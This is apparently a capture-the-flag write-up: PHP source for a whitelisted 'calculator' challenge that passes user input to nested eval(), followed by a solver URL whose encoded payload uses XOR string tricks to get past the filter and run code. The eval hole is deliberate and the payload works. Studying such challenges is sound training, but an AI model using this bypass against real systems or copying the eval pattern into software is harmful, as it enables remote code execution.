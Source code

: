 ## Code
```php
<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"])) 
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
}
```

## Solver
`http://139.180.155.171/?calc=%28%27.%7C%27%5E%2724%27%5E%27%7C%2B%27%29.%28%27%7C%27%5E%274%27%5E%27%29%27%29.%28%27%2A%27%5E%27%5E%27%29.%28%27%26%27%26%27%29%27%29.%27%2A%27.%28%27.%27%5E%272%27%5E%27%7C%27%29`
